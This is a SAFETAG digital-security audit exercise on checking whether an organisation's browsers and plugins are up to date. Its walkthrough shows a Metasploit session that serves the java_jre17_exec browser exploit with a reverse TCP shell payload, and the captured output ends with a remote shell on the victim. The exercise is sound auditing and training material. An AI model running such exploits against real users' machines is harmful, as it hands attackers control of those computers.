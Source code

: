 ```yaml
---
id: check-user-browser-vulns
name: Check Browser and Plugin Vulnerabilities
description: Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are...
origin: https://github.com/SAFETAG/SAFETAG
origin_path: master/en/exercises/check_user_browser_vulns/summary.md
authors: SAFETAG
org_size_under: 25
remote_options: with-support
skills_required: N/A
time_required_minutes: 30
approach: Technical
---
```

# Check Browser and Plugin Vulnerabilities

## Summary

Though modern browsers are better at self-updating, and the prevalence of powerful plugins like flash and java are slowly declining, it is valuable to ensure that the browsers in use have updated plugins and are themselves updated. 


## Materials Needed

* Metasploit


## Walkthrough

###### Outdated Java browser plugins

While the threat described below is more severe if carried out by a local attacker (as they can more readily direct the victim to a malicious Web site), it also works remotely. In fact, if a user can be tricked, by a remote attacker, into clicking on a malicious email or Web link, attacks like this represent a significant perimeter threat. By compromising the victim’s machine, they can give the attacker a local point-of-presence without requiring the attacker to crack WPA keys or gain local access in some other way.

Step 1: Using Metasploit, an attacker can easily create an ad hoc malicious Web site:

```
$ msfconsole

IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.7.0-dev [core:4.7 api:1.0]
+ -- --=[ 1114 exploits - 627 auxiliary - 178 post
+ -- --=[ 307 payloads - 30 encoders - 8 nops

msf > use exploit/multi/browser/java_jre17_exec

msf exploit(java_jre17_exec) > set PAYLOAD java/shell/reverse_tcp
PAYLOAD => java/shell/reverse_tcp

msf exploit(java_jre17_exec) > set LHOST 192.168.1.123
LHOST => 192.168.1.123

msf exploit(java_jre17_exec) > set SRVPORT 8081
SRVPORT => 8081

msf exploit(java_jre17_exec) > set URIPATH java_test
URIPATH => java_test

msf exploit(java_jre17_exec) > run
[*] Exploit running as background job.
```

Step 2: At this point, any local user who visits http://192.168.1.123:8081/java_test, and who is running a sufficiently out-of-date version of the Java browser plugin, stands a good chance of giving the attacker full access to his computer:

```
[*] Started reverse handler on 192.168.1.123:4444

msf exploit(java_jre17_exec) >

[*] Using URL: http://0.0.0.0:8081/java_test
[*] Local IP: http://192.168.1.123:8081/java_test
[*] Server started.

msf exploit(java_jre17_exec) >

<remote shell>
```

Figure 1: Attacker in control of the victim’s computer through a remote command shell






:[](../references/footnotes.md)
